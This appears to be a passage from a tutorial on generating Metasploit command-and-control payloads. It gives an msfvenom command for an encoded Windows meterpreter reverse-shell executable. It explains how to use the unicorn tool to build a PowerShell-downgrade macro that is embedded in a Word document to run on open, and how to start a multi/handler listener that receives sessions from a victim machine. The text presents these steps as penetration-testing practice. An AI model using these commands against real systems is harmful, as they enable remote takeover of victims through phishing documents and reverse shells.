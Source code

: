 ## Create payloads
Metasploit offers a variety of payloads. 

### Simple Binary Payload
A binary is often the simplest way for manual testing to establish a c2 connection.

```bash
#run outside of msf console
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<server_ip> LPORT=<server_port> -b "\x00" -e x86/shikata_ga_nai -f exe -o <out_path.exe>
```

- lhost = ip of the Metasploit server
- lport = port to connect back to the Metasploit server
- -e = encoding to use
- -o = output directory
Copy the binary to the target client and executed after you started the c2 server.

### Macro Payload
The default macro generation of Metasploit didn't work for me on a fully patched Windows 10 client and the latest Office O365 version. Therefore, I used the unicorn[^4] tool created by TrustedSec[5]. It uses a PowerShell downgrade attack and executed the shell code into the memory of the victim.

To use, simply clone the repository from GitHub and execute with python:

```bash
# clone repository
git clone https://github.com/trustedsec/unicorn.git
cd unicorn

#use unicorn
python unicorn.py windows/meterpreter/reverse_https <server_ip> 443 macro
```

You can use the different meterpreter payloads or choose an alternative to the macro like hta.
The command will create the file _powershell_attack.txt_ and the file _unicorn.rc_. The _powershell_attack.txt_ contains the macro, which has to be included inside a word document.
To add a macro to a word document go to View -> Macros -> Macro name: AutoOpen -> Create.

Warning: The macro used an old syntax for the automated macro execution. For newer version of word replace the sub name **Auto_Open** with **AutoOpen**. 

The _unicorn.rc can be used to setup a Metasploit listener with the command:
```bash
msfconsole -r unicorn.rc
```
Unfortunately, this didn't work for me, so I had to setup the listener manual.

## Start Listener / C2 Server
Inside Metasploit run:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST <server_ip>
set LPORT <server_port>
```
As soon as you executed the binary or open the word on the victims machine, there should be a new session available. If not, check it the firewall ports are open or if the AV has removed the shell code from the victim.


[^1]: Metasploit ](https://www.metasploit.com/)
[^2]: [Rapid7](https://www.rapid7.com/)
[^3]: [Offensive Security - Metasploit course](https://www.offensive-security.com/metasploit-unleashed/)
[^4]: [unicorn](https://github.com/trustedsec/unicorn)
[^5]: [TrustedSec](https://www.trustedsec.com/)
[^6]: [Enable C$ Admin share](https://cormang.com/2018/01/06/enable-c-admin-share-windows-10-server-2016/)